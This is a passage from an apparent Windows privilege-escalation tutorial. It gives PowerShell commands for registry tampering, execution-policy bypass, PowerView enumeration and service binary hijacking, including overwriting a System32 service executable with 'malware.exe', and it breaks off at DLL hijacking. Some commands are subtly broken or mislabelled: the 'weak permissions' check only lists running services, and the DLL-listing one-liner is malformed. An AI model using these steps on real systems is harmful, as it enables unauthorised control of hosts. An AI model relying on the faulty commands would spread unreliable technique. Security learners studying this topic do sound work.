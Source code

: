 - **Hidden in Plain View:** Attackers often hide in plain sight, manipulating the registry, hiding files, and manipulating the Windows environment.

```powershell
# Modify a registry key
reg add HKLM\Software\MyApp /v EvilValue /t REG_SZ /d "MaliciousData"
```

> **INFORMATION GOLDMINE:** *PowerShell*
>
> PowerShell is a powerful tool for extracting sensitive data and escalating privileges.
{: .prompt-tip }

```powershell
# Execute a PowerShell script
powershell.exe -exec bypass -c "Get-Process"
```

- **Automated Enumeration:** Tools like **PowerView** and **BloodHound** are invaluable for identifying potential privilege escalation paths.

```powershell
# Enumerate shares
Get-NetShare

# Enumerate services
Get-Service | Where-Object {$_.StartType -eq 'Auto' -and $_.Status -eq 'Running'}
```

### Privilege Escalation Techniques

#### Service Binary Hijacking

**Service Binary Hijacking** involves replacing or modifying the executable file of a Windows service, exploiting insecure service configurations to execute code with elevated privileges.

- Step 1: **Identify Vulnerable Services**

```powershell
# List services with weak permissions
Get-Service | Where-Object {$_.StartType -eq 'Auto' -and $_.Status -eq 'Running'}
```

- Step 2: **Replace the Service Binary**

```powershell
# Overwrite a service binary
Copy-Item C:\Malicious\malware.exe C:\Windows\System32\service.exe -Force
```

#### Service DLL Hijacking

**DLL Hijacking** targets dynamic-link library files used by Windows services. Attackers replace these DLLs with malicious versions to execute code with higher privileges.

- Step 1: **Identify Vulnerable Services**

```powershell
# List services loading DLLs
Get-Service | Where-Object {$_ | ForEach-Object { sc.exe qc $_.Name | Select-String "BINARY_PATH_NAME" -Context 0,1 } }
```
